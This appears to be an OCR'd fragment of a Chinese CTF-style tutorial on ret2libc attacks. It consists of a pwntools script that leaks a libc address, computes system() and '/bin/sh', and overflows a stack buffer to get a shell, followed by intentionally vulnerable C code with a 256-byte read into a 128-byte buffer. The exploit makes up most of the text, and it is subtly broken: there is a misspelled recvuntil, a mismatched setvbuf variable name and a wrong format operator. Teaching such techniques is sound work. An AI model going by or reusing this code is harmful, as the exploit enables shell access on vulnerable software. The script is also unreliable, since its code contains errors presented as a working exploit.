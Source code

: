 **Exploit**

```
from pwn import *

elf = ELF("./ret2libc")
libc = elf.libc

io = process("./ret2libc")
pause()
io.recvutil('This is your gift: ')
sendvbuf_addr = int(io.recvline().strip(), 16)

libc_base = setvbuf_addr - libc.sym['setvbuf']
system_addr = libc_base + libc.sym['system']
binsh_addr = libc_base + libc.search("/bin/sh\x00").next()

pause()
log.info("setvbuf_addr:0x%x" % setvbuf_addr)
log.info("libc_base:0x%x" % libc_base)
log.info("system_addr:0x%x" % system_addr)
log.info("binsh_addr:0x%x" & binsh_addr)

# pay = "A"*(0x6c-8) # 6C5 lea esp, [ebp-8]
# pay += p32(0x3ac5c+libc_base+4) # set exc
# pay += "CCCC" # set ebx
# pay += "DDDD" # set ebp

pay = "A"*0x68 + "B"*4
pay += p32(system_addr)
pay += "CCCC"
pay += p32(binsh_addr)

io.send(pay)
io.interactive()
```



#### ret2libc绕过DEP

**示例代码**

```
 #include <stdio.h>
 #include <stdlib.h>
 #include <unistd.h>

 void vulnerable_function() {
     char buf[128];
     read(STDIN_FILENO, buf, 256);
 }

 int main(int argc, char** argv) {
     vulnerable_function();
     write(STDOUT_FILENO, "Hello, World\n", 13);
 }
```
